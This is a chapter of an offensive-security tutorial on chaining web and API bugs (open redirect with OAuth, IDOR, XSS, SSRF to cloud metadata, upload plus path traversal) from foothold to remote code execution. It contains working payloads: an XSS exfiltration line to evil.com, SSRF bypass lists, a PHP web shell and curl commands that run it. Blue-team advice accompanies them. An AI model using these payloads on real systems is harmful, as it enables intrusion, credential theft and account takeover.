









This is Chapter 4 of the APIs & CMS notebook, and the capstone of everything the notebook has built toward. The previous three chapters gave you the primitives: REST API methodology, GraphQL tradecraft, and CMS/known-vuln exploitation. Each taught you to *find* a class of bug. This chapter teaches the skill that actually pays: taking two, three, or six individually-modest findings and welding them into a single narrative that walks from "anonymous internet user" to "arbitrary code execution on your production server" — a **kill chain**.

The gap between an average bug-bounty hunter and a great one is rarely raw payload knowledge. It is *impact synthesis*. A great hunter looks at an open redirect — a bug most programs mark informational and pay $0 for — and sees the first link in a chain that steals an OAuth token and takes over any account. They look at a self-XSS that "only affects the attacker's own browser" and see a login-CSRF primitive that forces a victim into an attacker-controlled account where the XSS suddenly fires against real users. They look at a JSON error that leaks an internal hostname and see the target for an SSRF they found three endpoints away. This chapter is about developing that eye, and then proving the chain works with a reproducible proof-of-concept a triager cannot downgrade.

We start with the mindset and the vocabulary of chaining, build a repeatable method for inventorying and connecting primitives, walk every canonical chain in modern web/API security with real payloads, then put it all together in one long worked lab that goes from an unauthenticated foothold to RCE. Throughout, the offensive tradecraft is paired with the defensive reality — because understanding *why* a chain works is also how you explain to a program why the fix has to break the chain, not just patch one link.

---

## Part 1: Why Chaining Is the Whole Game

A single vulnerability is a fact. A chain is a *story* — and triagers, program managers, and CVSS calculators all reward stories.

Consider three findings, reported separately:

- An **open redirect** on `/logout?next=`. Severity: Informational. Typical bounty: $0.
- A **verbose error** that leaks the internal API base URL `http://api-internal.corp.local`. Severity: Low. Typical bounty: $50.
- A **server-side request forgery** in an "import from URL" feature that the program already knows about and has "accepted the risk" on because "it can only reach public URLs." Severity: Low, closed as informative. Bounty: $0.

Reported as a chain, those same three facts become: *an unauthenticated attacker uses the SSRF to reach the internal API URL disclosed by the error message, hits an internal admin endpoint with no external authentication, and the open redirect is used to exfiltrate the resulting session token to an attacker server.* That is a **critical**, and it pays like one — often 20–50× the sum of the parts, because the impact is not additive, it is multiplicative.

### The impact-multiplier mindset

Chaining rewires how you triage your own findings. Instead of asking "is this bug exploitable *on its own*?", you ask three questions about every primitive:

1. **What does this give me that I didn't have before?** (A reflected value? A place to store data? A request originating from the server? A leaked identifier? Control of a redirect target?)
2. **What is this one step away from?** (If I can control a redirect, I'm one OAuth flow away from token theft. If I have SSRF, I'm one metadata endpoint away from cloud credentials.)
3. **Who else can I make trigger this?** (Can I get a victim, or the server itself, or an admin, to execute the primitive on my behalf?)

The mental shift is from *vulnerabilities as endpoints* to *vulnerabilities as primitives* — reusable capabilities you compose.



### The vocabulary of a chain

Precise language keeps your report and your own thinking clear:

| Term | Meaning | Example |
|------|---------|---------|
| **Primitive** | A single capability a bug grants | "arbitrary server-side GET request" from an SSRF |
| **Foothold / entry** | The first primitive that gets you *in* | unauth IDOR that leaks a valid token |
| **Pivot** | Using one primitive to reach a new surface | SSRF pivoting from public internet to `169.254.169.254` |
| **Escalation** | Increasing privilege or blast radius | low-priv user → admin via mass assignment |
| **Sink** | Where an attacker-controlled value lands and does damage | a `innerHTML` write (XSS), a `Runtime.exec` (RCE) |
| **Gadget** | A reusable code path abused to reach a sink | a deserialization gadget chain |
| **Amplifier** | A bug that makes another bug affect *other* users | login CSRF turning self-XSS into a mass attack |

**Bug-bounty reality:** Programs pay for *demonstrated* impact, not theoretical potential. The chain is what converts "this *could* be bad" into "here is a video of me reading another user's private messages / running `id` on your server." Almost every five-figure single-report payout in public disclosure archives is a chain, not a lone bug.

---

## Part 2: The Anatomy of a Kill Chain

Every web/API kill chain — no matter how exotic — walks the same abstract stages. Naming them helps you spot which stage you're stuck on and what kind of primitive you need to find next.



The dashed lines matter: chaining is *iterative*. You constantly bounce back — a pivot dead-ends, so you return to recon for another foothold; an escalation needs one more capability, so you go hunting for it specifically. Great hunters keep a running **primitives inventory** for a target and revisit it whenever they find something new, asking "does this new capability unlock anything I was previously blocked on?"

### The five stages in practice

**1. Recon & surface map.** You already know this from the recon/OSINT track. For chaining specifically, you are cataloguing not just *hosts* but *capabilities the app exposes*: every parameter that reflects, every ID in a URL, every "fetch a URL" feature, every upload, every redirect, every place user input is later shown to another user, every auth flow (OAuth, SAML, magic-link, password reset).

**2. Foothold.** The first primitive. Often boring: an IDOR that reads one object, a self-XSS, a leaked API key in a JS bundle, an open S3 bucket, a `.git` folder. On its own it might be a P4. Its value is as the *first domino*.

**3. Pivot.** Use the foothold to reach a surface you couldn't reach before. SSRF pivots network position. A leaked internal doc pivots knowledge. An IDOR that returns other users' emails pivots you toward account takeover targets.

**4. Escalate.** Increase privilege (user → admin), scope (one account → all accounts), or capability (read → write → execute). Mass assignment turning a normal signup into an admin account is the archetype.

**5. Impact.** The payoff a triager can't argue with: full account takeover, remote code execution, mass PII exfiltration, payment manipulation, or complete authentication bypass.

**CTF angle:** Boot-to-root and web CTF challenges are chains by design — the flag is behind a deliberately-built sequence (LFI → log poisoning → RCE → privesc). Practising CTFs is practising chaining; the difference in bug bounty is that *you* have to notice the chain exists rather than being told a chain is present.

---

## Part 3: Building a Primitives Inventory From Recon

Before you can chain, you need raw material laid out where you can see it. Professional hunters keep a per-target notes file (Obsidian, a markdown scratchpad, or a spreadsheet) with a **primitives table**. The act of writing it down is what makes connections visible.

Here's a realistic inventory for a mid-sized SaaS target after a day of testing:

| # | Primitive | Location | Class | One step from... |
|---|-----------|----------|-------|------------------|
| P1 | User object ID is a sequential integer, `GET /api/v2/users/{id}` returns email+role for *any* id | `/api/v2/users/1042` | IDOR / BOLA read | account enumeration, ATO targets |
| P2 | Signup accepts extra JSON fields silently | `POST /api/v2/signup` | mass assignment (suspected) | role escalation |
| P3 | "Import avatar from URL" fetches server-side | `POST /api/v2/profile/avatar {url}` | SSRF (suspected) | internal services, cloud metadata |
| P4 | `next` param on login redirects off-domain | `/login?next=//evil.com` | open redirect | OAuth token theft, phishing |
| P5 | Support-ticket body renders unsanitised in admin panel | `POST /api/v2/tickets` | stored XSS (admin context) | admin ATO |
| P6 | Verbose 500 leaks stack trace + internal hostnames | malformed `/api/v2/reports` | info disclosure | SSRF target list |

Look at that table and the chains start writing themselves:

- **P3 + P6** → SSRF with a map of internal hostnames to aim at.
- **P2** → become admin → **P5** fires stored XSS in *your own* admin context (less useful) — but if P5 renders in *support agents'* panels, any low-priv user's ticket hits a real admin. That's a chain that needs no escalation at all.
- **P4 + OAuth** → steal tokens.
- **P1** → enumerate the admin's user ID and email → targeted password-reset or phishing.

### A quick recon checklist tuned for chaining

```text
[ ] Every ID in every URL/response: sequential? guessable? swap it (IDOR/BOLA)
[ ] Every "fetch/import/preview from URL": SSRF candidate
[ ] Every redirect param (next, return, url, redirect, callback, continue): open redirect
[ ] Every reflected value: XSS candidate; note context (HTML/attr/JS/URL)
[ ] Every place YOUR input is shown to ANOTHER user: stored XSS with a victim
[ ] Every upload: type/extension/content checks? path controllable?
[ ] Every auth flow: OAuth callback, SAML, password reset token, magic link
[ ] Every error: stack traces, internal hosts, versions, framework fingerprints
[ ] Every JS bundle: hardcoded keys, hidden endpoints, feature flags, roles
[ ] Every state-changing request: CSRF token present + validated?
```

**Red team usage:** the same inventory discipline is exactly how red teamers plan an intrusion — capabilities are catalogued, then composed into an attack path. BloodHound does this automatically for Active Directory (nodes = principals, edges = abusable relationships); for web apps *you* are the graph engine. Thinking in nodes-and-edges is the transferable skill.

---

## Part 4: Information Disclosure as Chain Fuel

Information disclosure is the most under-rated primitive in bug bounty. On its own a leaked internal hostname or a stack trace is a Low or Informational. As chain fuel it is priceless, because almost every serious chain needs *knowledge* the attacker isn't supposed to have.

### What leaks, and what each leak unlocks

| Leak | Typical source | Chains into |
|------|----------------|-------------|
| Internal hostnames / IPs | stack traces, error pages, HTTP headers, JS config | SSRF target list, host-header attacks |
| API keys / tokens / secrets | JS bundles, `.env`, `.git`, S3, source maps | direct auth bypass, cloud pivot |
| Usernames / emails / IDs | IDOR, verbose auth errors, GraphQL introspection | ATO targeting, password spraying |
| Software versions | `Server` header, JS libs, favicon hash, CMS meta | known-CVE exploitation (Chapter 3) |
| Source code / logic | source maps, exposed repos, debug endpoints | finding *more* bugs, bypassing client checks |
| Framework debug mode | Django `DEBUG=True`, Flask debugger, Symfony profiler | RCE (Werkzeug console!), config dump |

### Worked example: source maps → hidden admin API

A modern SPA ships minified JS. If the developers left source maps enabled (`//# sourceMappingURL=main.js.map`), you can un-minify the entire frontend and read the original code — including endpoint names and role names that never appear in the UI.

```bash
# Pull the bundle and check for a source map reference
curl -s https://app.target.com/static/js/main.8f3a.js | tail -c 200
# ...//# sourceMappingURL=main.8f3a.js.map

# Download and reconstruct original sources
npx source-map-explorer https://app.target.com/static/js/main.8f3a.js.map 2>/dev/null
# or use the 'unwebpack-sourcemap' / 'reverse-sourcemap' tools:
npx reverse-sourcemap -o ./recovered main.8f3a.js.map
```

`reverse-sourcemap` writes the original file tree to `./recovered`. Grep it:

```bash
grep -rInE "api/(v[0-9]+|internal|admin)" ./recovered | sort -u
# recovered/src/api/admin.ts:12:  const ADMIN_BASE = '/api/v2/internal/admin';
# recovered/src/api/admin.ts:41:  export const impersonate = (uid) => post(`${ADMIN_BASE}/impersonate`, {uid});
```

You just found `/api/v2/internal/admin/impersonate` — an endpoint that never appears in the shipped UI for a normal user. Whether it's *authorized* is the next test (a BFLA check), but the disclosure handed you the target. That is the chain: **source map disclosure → hidden endpoint → BFLA → account impersonation.**

### The Werkzeug/Flask debugger chain

If a Python app runs with the interactive debugger enabled in production (a shockingly common misconfiguration), an unhandled exception renders a web console. If you can reach the console PIN (or the app runs an old Werkzeug where the PIN algorithm is weak/derivable from leaked machine data), the "console" is literal Python `eval` — instant RCE.

```text
Trigger any 500 error → /console appears (Werkzeug debugger)
→ PIN prompt → derive PIN from leaked username + machine-id + modules
→ >>> __import__('os').popen('id').read()
→ uid=33(www-data) gid=33(www-data)
```

**Detection note (blue team):** never run production with `DEBUG=True`, `FLASK_ENV=development`, Symfony `APP_ENV=dev`, or Rails `config.consider_all_requests_local = true`. Strip source maps from production builds or restrict `.map` access at the CDN. Treat verbose errors as a security bug, not a cosmetic one — they are the reconnaissance layer of nearly every serious chain.

---

## Part 5: Access-Control Chains — IDOR/BOLA to Full Account Takeover

Broken access control is OWASP's #1 category and the richest chaining ground, because access-control bugs *compose*: a read primitive tells you what to target, a write primitive changes it, and the combination is takeover.

### From single-object IDOR to mass ATO

A plain IDOR reads one object. The chain turns it into control of every account. Suppose:

- `GET /api/v2/users/{id}` returns `{email, phone, role}` for any id (BOLA read — P1 from our inventory).
- `PUT /api/v2/users/{id}` lets a user update *their own* profile, but the server trusts the `{id}` in the path without checking it matches the session (BOLA write).

Individually: "you can read other users' emails" (Medium) and "you can edit your own profile" (not a bug). Chained:

```http
PUT /api/v2/users/1042 HTTP/1.1
Host: app.target.com
Authorization: Bearer <attacker-low-priv-token>
Content-Type: application/json

{"email":"attacker+1042@evil.com"}
```

If the server updates user 1042's email to the attacker's, the attacker then triggers a password reset for user 1042 — which now goes to the attacker's inbox. **Chain: BOLA read (enumerate victims) → BOLA write (change victim email) → password reset → account takeover, repeatable across every user id.** That is a critical.

### Password reset as a chaining hotspot

Password-reset flows are where several primitives converge. Classic reset chains:

| Weakness | Chain |
|----------|-------|
| Reset token in URL + open redirect / referer leak | victim clicks reset link → token leaks via `Referer` to attacker-controlled resource loaded on the reset page → ATO |
| Host-header injection in reset email | attacker sets `Host: evil.com` → reset link points to `evil.com/reset?token=...` → victim clicks → token to attacker |
| Reset token = predictable (timestamp, sequential, weak PRNG) | request reset for victim → predict token → ATO |
| Response reflects token / user object | request reset → token returned in JSON body (BOLA) → ATO |
| Email field accepts array `["victim@x","attacker@y"]` | reset email delivered to attacker too |

**Host-header injection reset chain, concretely:**

```http
POST /api/v2/password/reset HTTP/1.1
Host: evil.com
Content-Type: application/json

{"email":"victim@target.com"}
```

If the backend builds the reset link from the incoming `Host` header (`f"https://{request.host}/reset?token={t}"`), the victim receives an email linking to `https://evil.com/reset?token=SECRET`. When they click, the secret token lands on the attacker's server logs. **Chain: host-header injection (a "low" on its own) → password-reset poisoning → ATO.**



### BFLA: the function-level cousin

BOLA is about *objects*; BFLA (Broken Function Level Authorization) is about *actions*. The hidden `/api/v2/internal/admin/impersonate` we recovered from source maps in Part 4 is a BFLA target: if a normal user's token is accepted there, you chain **source-map disclosure → BFLA → impersonate any user → full ATO** with no password reset at all.

**Blue team usage:** every object-fetching and action endpoint must enforce authorization *server-side, per request*, keyed to the authenticated principal — never trust an ID or role sent by the client. Centralised authorization middleware (a policy layer every request passes through) is the structural fix; scattering `if user.id == obj.owner_id` checks in each handler is where BOLA bugs breed.

---

## Part 6: Open Redirect + OAuth — The Token-Theft Chain

Open redirect is the canonical "worthless alone, devastating in a chain" bug. By itself, redirecting a user to `evil.com` is phishing-adjacent and most programs pay little. Chained with an OAuth or SSO flow, it steals authentication tokens and takes over accounts.

### Why OAuth trusts redirects

OAuth 2.0 sends the authorization code (or, in implicit flow, the access token) to a `redirect_uri`. The authorization server is *supposed* to allow only pre-registered redirect URIs. But real-world validation is often sloppy: prefix matching, allowing any path on the domain, allowing subdomains, or — the killer — the *application's own* open redirect being reachable from an allow-listed URL.



The `redirect_uri` (`https://app.target.com/cb`) is legitimately registered, so the IdP is happy. But `app.target.com/cb` itself honours a `next=//attacker.com` open redirect, so the authorization code — appended by the IdP or carried through — ends up on the attacker's server. The attacker exchanges the code for the victim's access token: **open redirect (P4) + OAuth = full account takeover.**

### Token exfiltration variants

- **Implicit flow (`response_type=token`)**: the access token lands in the URL *fragment* (`#access_token=...`). Fragments aren't sent in `Referer`, so attackers use an open redirect to a page whose JavaScript reads `location.hash` and beacons it out.
- **Code in query**: carried in `?code=`, leaks via `Referer` or a chained redirect as above.
- **`state` parameter open redirect**: some apps stuff a return URL into `state` and redirect to it post-login without validation.

**Payload matrix — open-redirect bypasses to try against a redirect param:**

```text
//evil.com                     /\evil.com               https:evil.com
///evil.com                    /%2f/evil.com            https://evil.com%2f@target.com
https://target.com.evil.com    https://target.com@evil.com
https://evil.com#@target.com   //evil.com/%2e%2e
/\/\evil.com                   \/\/evil.com             ?next=https://evil%E3%80%82com  (ideographic dot)
javascript:alert(1)  (if it's a client-side sink, escalates to XSS instead)
```

Notice the last line: if the "redirect" is actually a client-side `location = userInput`, a `javascript:` URI turns the open redirect into **DOM XSS** — a different, often more valuable chain.

**Bug-bounty reality:** OAuth-redirect chains are among the most-paid disclosed reports on HackerOne. Programs that shrug at a bare open redirect will pay four to five figures once you demonstrate the OAuth token theft, because the impact is objectively account takeover. Always check whether an open redirect sits on or near an auth callback before dismissing it.

---

## Part 7: XSS Chains — From "Self-XSS" to Admin Takeover

"Self-XSS" — XSS that only fires in the attacker's own session — is the most commonly *closed-as-informative* bug that is actually a critical waiting for a second link. The links that escalate it are login/logout CSRF and stored-XSS-in-privileged-context.

### Self-XSS + login CSRF

The problem with self-XSS is you can't make a *victim* run it in *their* session. Login CSRF fixes that by forcing the victim into an *attacker-controlled* account, where the attacker's stored self-XSS payload lives.



The subtlety: once the payload runs on the target's origin in the victim's browser, it can do anything the victim could — including, in many designs, changing the *victim's* real account email or adding an attacker OAuth identity, re-taking-over even after the victim logs back into their own account. So a bug the program called "self-XSS, informative, $0" becomes an account-takeover chain.

### The higher-value version: stored XSS in an admin/support context

Recall inventory item **P5**: a support-ticket body rendered unsanitised in the *admin/support-agent* panel. A low-privileged (even unauthenticated) user submits a ticket whose body is:

```html
r.text()).then(d=>fetch('https://evil.com/x?d='+encodeURIComponent(btoa(d))))">
```

When a support agent opens the ticket in the admin panel, the payload runs *in the agent's authenticated session*, exfiltrating the internal user list — or, more aggressively, creating a new admin, resetting a password, or stealing the agent's session token. **Chain: unauthenticated stored XSS → admin-context execution → privilege escalation → full compromise.** No escalation bug needed; the *victim's* privilege is the escalation.

### XSS → CSRF-token theft → state change

Even with anti-CSRF tokens, an XSS on the same origin reads the token from the DOM and forges the "protected" request. This is why XSS is game-over for CSRF defenses: same-origin script bypasses SameSite cookies and token checks alike.

```javascript
// Runs via any XSS on target origin
const token = document.querySelector('meta[name=csrf-token]').content;
fetch('/api/v2/account/email', {
  method:'POST', credentials:'include',
  headers:{'Content-Type':'application/json','X-CSRF-Token':token},
  body: JSON.stringify({email:'attacker@evil.com'})
});
```

**Payload matrix — XSS sinks and the primitive each yields:**

| Context | Payload | Primitive gained |
|---------|---------|------------------|
| HTML body | `` | arbitrary JS on origin |
| Attribute | `" autofocus onfocus=IMPORT x="` | breaks out of attribute |
| JS string | `';IMPORT//` | breaks out of script |
| URL / `href` | `javascript:IMPORT` | click-to-exec |
| Markdown | `[x](javascript:IMPORT)` | many renderers still allow |
| SVG upload | `<svg onload=IMPORT>` | stored, served same-origin |
| Angular/Vue template | `{{constructor.constructor('IMPORT')()}}` | client-side template injection → XSS |

(`IMPORT` above = your session-theft/CSRF payload.)

**Blue team usage:** a strict Content-Security-Policy (no `unsafe-inline`, nonce-based scripts) breaks most XSS-exfil payloads even when the injection exists; `HttpOnly` cookies stop token theft (but not on-origin CSRF forging); and rendering user content in admin panels demands the *same* output encoding as user-facing pages — admins are high-value XSS victims precisely because their session is powerful.

---

## Part 8: SSRF Chains — From "Fetch a URL" to Cloud RCE

SSRF is the crown jewel of server-side chaining because it moves the attacker's *network position* from the public internet to the inside of the target's infrastructure. A "low" SSRF that "can only reach public URLs" is one bypass away from the cloud metadata service and full account compromise.

### The canonical cloud-metadata chain

Cloud instances expose a metadata service at `169.254.169.254` that returns instance configuration — including, on misconfigured or IMDSv1 setups, temporary IAM credentials. SSRF that reaches it hands the attacker the server's cloud identity.



Worked request against the avatar-import SSRF (inventory **P3**):

```http
POST /api/v2/profile/avatar HTTP/1.1
Host: app.target.com
Authorization: Bearer <attacker-token>
Content-Type: application/json

{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}
```

Realistic response (the server "imports" the fetched body as the avatar, and the app helpfully echoes the fetched content in an error because it isn't a valid image):

```json
{"error":"Not an image","fetched":"app-ec2-role"}
```

Then:

```http
{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/app-ec2-role"}
```

```json
{"error":"Not an image","fetched":"{\"AccessKeyId\":\"ASIA...\",\"SecretAccessKey\":\"wJalr...\",\"Token\":\"IQoJb3...\",\"Expiration\":\"...\"}"}
```

Load those into the AWS CLI and you have the server's identity:

```bash
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=wJalr...
export AWS_SESSION_TOKEN=IQoJb3...
aws sts get-caller-identity
# {"Account":"1234...","Arn":"arn:aws:sts::1234...:assumed-role/app-ec2-role/i-0abc..."}
aws s3 ls
# 2026-...  target-user-uploads
# 2026-...  target-db-backups     <-- game over
```

If the role can call `ssm:SendCommand` or invoke Lambdas, SSRF has become **RCE**. **Chain: SSRF → metadata → IAM creds → S3/RDS data exfil (and often RCE).**

### SSRF filter bypasses (the "only public URLs" myth)

Programs that block `169.254.169.254` and RFC1918 ranges are defeated by encoding, DNS, and redirect tricks:

```text
http://169.254.169.254        http://0xA9FEA9FE            (hex)
http://2852039166             (decimal IP)                 http://0251.0376.0251.0376 (octal)
http://[::ffff:169.254.169.254]  (IPv6-mapped)             http://169.254.169.254.nip.io
http://metadata.google.internal  (GCP)                     http://100.100.200.200 (Alibaba)
http://spoofed.evil.com  → DNS rebinding to 169.254.169.254 (TTL 0)
http://target.com@169.254.169.254   (userinfo confusion)
http://evil.com/redirect?to=http://169.254.169.254  (open redirect chained INTO the SSRF)
```

That last one is itself a chain-within-a-chain: an **open redirect used to bypass an SSRF allow-list**. If the SSRF only fetches allow-listed domains but *follows redirects*, point it at an allow-listed host you control (or an on-target open redirect) that 302s to the metadata IP.

- **IMDSv2 note:** AWS IMDSv2 requires a `PUT` to get a session token first, defeating simple `GET`-only SSRF. But many SSRF primitives allow method/header control, and plenty of fleets still run IMDSv1. GCP/Azure metadata require a header (`Metadata-Flavor: Google` / `Metadata: true`) — again reachable if the SSRF lets you set headers.

**Gopher/protocol smuggling escalation:** if the SSRF permits `gopher://`, you can craft raw TCP payloads to talk to internal Redis, memcached, or unauthenticated internal HTTP APIs — turning a "fetch a URL" into "send arbitrary bytes to internal service," which is frequently direct RCE (e.g., writing a cron job into Redis).

**Blue team usage:** enforce IMDSv2 with hop-limit 1, deny egress from app servers to `169.254.169.254` at the network layer, validate *and re-validate after redirects* against an allow-list of resolved IPs (not hostnames), and disable unused URL schemes. SSRF defense must happen at the network *and* application layer because either alone is bypassable.

---

## Part 9: File Upload + Path Traversal — The Web-Shell Chain

Upload bugs are a chaining playground because "upload a file" plus "control where it lands" plus "the webroot executes it" is remote code execution assembled from three modest weaknesses.

### The three ingredients

1. **An upload that accepts a dangerous type** (or can be tricked into it via extension/content-type/magic-byte bypass).
2. **A predictable or controllable storage path** (so you know the URL of what you uploaded, or can traverse it into an executable directory).
3. **A location that executes** (the file lands somewhere the web server will run as code, e.g., `.php`/`.jsp`/`.aspx` under the docroot, or a writable cron/startup path).



### Upload filter-bypass matrix

| Defense | Bypass |
|---------|--------|
| Extension blocklist (`.php` blocked) | `.phtml`, `.php5`, `.pht`, `.phar`, `.PHP`, `shell.php.jpg`, `shell.php%00.jpg`, `shell.php.` (trailing dot/space on Windows) |
| Content-Type check | set `Content-Type: image/png` in the multipart part while body is PHP |
| Magic-byte / image validation | prepend `GIF89a;` or embed PHP in EXIF: `exiftool -Comment='<?php system($_GET["c"]);?>' img.jpg` then rename to `.php` |
| `getimagesize()` check | polyglot: valid image header + appended `<?php ... ?>` |
| Server-set random filename | leverage path traversal in a *separate* param, or a race, or an accompanying zip-slip |
| Stored outside webroot | chain with LFI/path-traversal to *include* it, or with an archive-extraction (zip-slip) that writes into webroot |

### Path traversal turning a "safe" upload into RCE

Even if uploads go to a non-executable `/uploads/` directory, a traversal in the filename can escape it:

```http
POST /api/v2/files HTTP/1.1
Content-Type: multipart/form-data; boundary=X

--X
Content-Disposition: form-data; name="file"; filename="../../var/www/html/shell.php"
Content-Type: image/png

GIF89a;
<?php system($_GET['c']); ?>
--X--
```

If the server naively joins the upload directory with the client filename, `../../` walks into the webroot. Then:

```bash
curl 'https://app.target.com/shell.php?c=id'
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
curl 'https://app.target.com/shell.php?c=cat+/etc/passwd'
```

**Chain: extension-bypass upload + path-traversal filename → web shell in docroot → RCE.** Layer it further: the RCE runs as `www-data`, then you pivot to the privilege-escalation track (SUID, sudo, kernel) to reach root — a full boot-to-root chain from a single upload form.

### Zip-slip and archive extraction

If the app extracts uploaded archives, a zip entry named `../../var/www/html/shell.php` writes outside the extraction directory on extractors that don't sanitise paths — same RCE, different vector, and one that bypasses per-file upload validation because the *archive* passed the check.

**CTF angle:** upload-to-RCE is a staple of HackTheBox/TryHackMe web boxes and picoCTF web challenges — the deliberate chain is usually "find the bypass the author left" (a specific extension, a `.htaccess` upload that re-enables PHP handling, or a traversal). The `.htaccess`-upload trick — upload a `.htaccess` that maps `.jpg` to the PHP handler, then upload `shell.jpg` — is a classic chain worth knowing.

---

## Part 10: Hands-On Lab — Six Bugs, One Kill Chain (Unauth → RCE)

This lab stitches the whole chapter together against a deliberately vulnerable SaaS app, "AcmeNotes," running in a lab (a Docker target you'd stand up locally or a purpose-built practice box — never a live program out of scope). Everything below is reproducible with the tools we teach from scratch as we go. The chain: **info disclosure → BOLA read → mass assignment → stored XSS (admin) → SSRF → metadata → RCE.**

### Tooling primer (from scratch)

Three tools drive the lab. If you've done the earlier tooling chapter, this is revision; if not, here's zero-to-usable.

